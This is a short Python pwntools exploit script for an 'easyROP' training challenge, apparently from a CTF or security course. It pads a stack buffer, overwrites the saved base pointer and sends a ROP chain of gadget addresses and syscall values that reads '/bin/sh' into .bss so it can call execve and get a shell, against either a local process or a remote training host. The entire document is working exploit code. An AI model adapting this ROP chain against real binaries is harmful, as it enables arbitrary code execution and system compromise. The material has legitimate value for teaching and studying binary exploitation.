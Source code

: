 ```python
print('address of syscall: {} - {}'.format(hex(syscall[0]), p64(int(magic_gadget[0]))))
print('address of /bin/sh: {}'.format(hex(binsh_addr)))
print('address of zeros: {}'.format(hex(zeros_addr)))
print('____________________________________')

# trying to minimize replicated code
def sender(payload):
    r.send(payload)
    r.send('\x00'*4)
    print('\n sent: {}'.format(str(payload)))
    print('read {} bytes'.format(str(r.recv())))
    sleep(delay)

# setting up execution environment
context.update(arch='amd64', os='linux')
if debug:
    context.log_level = 'DEBUG'
context.terminal = ['tmux', 'splitw', '-h']
if remote_enabled:
    r = remote("training.jinblack.it", port)
else:
    r = process(binary)
    gdb.attach(r, '''
        b main
        continue
        b * 0x400290
    ''')

r.recvuntil('Try easyROP!')

# SENDING THE ACTUAL EXPLOIT

# padding to get to sebp
for i in range(12):
    sender(b'AAAA')

# junking sebp
sender(b'BBBB')
sender(b'BBBB')

# reading '/bin/sh' into the .bss section to allow the call to execve

# address of pop gadget
sender(p64(magic_gadget[0]))
sender(b'\x00'*4)

# fd from which we take the input
sender(b'\x00'*4)
sender(b'\x00'*4)

# where to read
sender(p64(binsh_addr))

# how much to read
sender(p64(8))

# syscall code
sender(b'\x00'*4)
sender(b'\x00'*4)

# sycall + ret gadget
sender(b'\x00'*4)
sender(p64(0x00000000004001b3))
```